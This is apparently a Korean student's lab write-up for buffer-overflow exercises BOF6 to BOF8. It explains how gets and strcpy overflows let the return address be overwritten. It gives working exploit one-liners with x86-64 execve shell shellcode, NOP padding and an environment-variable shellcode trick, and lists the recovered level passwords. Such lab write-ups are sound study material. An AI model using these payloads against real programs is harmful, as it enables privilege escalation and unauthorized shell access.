

# 과제 

## BOF6
### 취약점 분석


bof6파일에서는 get함수를 이용하여 문자열을 저장한다.
따라서 overflow가 발생할 수 있다.

이번에는 전 bof1~5번 파일과는 다르게 system파일이 존재하지 않는다.
따라서 우리가 강제로 프로그램에 흐름을 바꿔 shell을 실행시킬 필요가 있다.

bof6에는 shellcode가 다음과 같이 0x7fffffffe440 이라는 주소에 저장되어 있다. 그렇기 때문에 우리는 프로그램에 흐름을 해당주소로 향하게 바꾸기만 하면 shell을 실행시킬 수 있다.


프로그램에 흐름을 바꾸기 위해서는 함수의 return address를 덮어씌울 필요가 있다.

gdb를 통하여 return address가 저장되는 주소를 구하고(0x7fffffffe4a8)


get함수의 rdi값을 구하여 2 주소값의 차를 구하면 buff와 return address까지의 크기를 구할 수 있다.

136 이라는 값이 나왔다.


    (python -c "print 'a'*136+'\x40\xe4\xff\xff\xff\x7f'";cat) | /bof6

136개의 의미없는 글자와 shellcode가 들어있는 주소를 넣어 프로그램이 해당 주소로 가도록 조작한다.


권한 탈취 후 bof7.pw파일을 실행하여 661aa6d8 이라는 값을 얻을 수 있다.

## BOF7
### 취약점 분석


bof7에서는 main인자를 전달받아 strcpy로 buf에 저장한다. 따라서 오버플로우에 위험이 있다.

bof7은 6과 비슷하나 get이 아닌 main에 argument로 받는다는점과 내부에 shellcode가 존재하지 않는 다는 것이 다르다. 
따라서 오버플로우를 일으켜 shellcode가 존재하는 곳까지 프로그램에 흐름을 바꿀 필요가 있다.


다음과 같이 프로그램을 실행시키면 buff의 주소를 알 수 있다.

gdb를 이용하여 구한 136이라는 size와 buff의 주소를 이용하여 shellcode ``` \x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05```
를 버퍼에 집어넣고 프로그램의 흐름을 버퍼로 향하도록 조작하면 shell을 실행 시킬 수 있다.

bof7은 main에서 인자를 받기 때문에 ``를 사용하여
실행파일 `73글자+27개의 shellcode+ 36글자 + buff의 주소`의 형식을 갖추면 권한 탈취가 가능하다.

./bof7 `python -c "print '\x90'*73+'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'\x90'*36 +'\xc0\xe3\xff\xff\xff\x7f'"`


04ccd53d

## BOF8
### 취약점 분석


BOF8은 BOF6와 흡사하다. 하지만 버퍼의 사이즈가 8로 매우 작은 것을 확인 할 수있다. 이를 gdb를 이용하여 확인해보니




다음과 같이 16개의 글자가 들어갈 수 있는 것을 확인할 수 있다.

shellcode는 27개의 글자가 필요하기 때문에 buff안에 shellcode를 넣기에는 사이즈가 너무 작다. 따라서 다른곳에 저장해둔 shellcode를 불러올 필요가 있다. 

bof8에는 환경변수를 불러오는 함수 getenv가 존재한다. 

getenv함수는 주어진 이름과 일치하는 환경변수를 검색하여 있으면 해당 주소를 반환하고 없으면 null을 반환한다.

아직은 shellcode라는 환경변수를 만들지 않았기 때문에 프로그램을 실행시키면


nill이라는 문자가 뜬다.

환경변수 SHELLCODE에 shellcode를 저장하기 위하여
export SHELLCODE="`python -c 'print"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`"
라는 명령어를 실행한다.

그러면 다음과같이 SHELLCODE가 생성되어있는 것을 확인할 수 있다.


그 후 프로그램을 실행시켜 환경변수가 위치한 address를 구한 뒤 


(python -c "prinf 16글자 + 환경변수 주소")의 형식으로 입력을 하면

    (python -c "print '\x90'*16+'\x19\xe8\xff\xff\xff\x7f'";cat)|./bof8
프로그램의 흐름이 바뀌어 shell을 실행시켜 권한 탈취가 가능하게 된다.

bof8을 진행하며 처음에는 


다음과 같은 방식을 시도하였으나 실패하였다.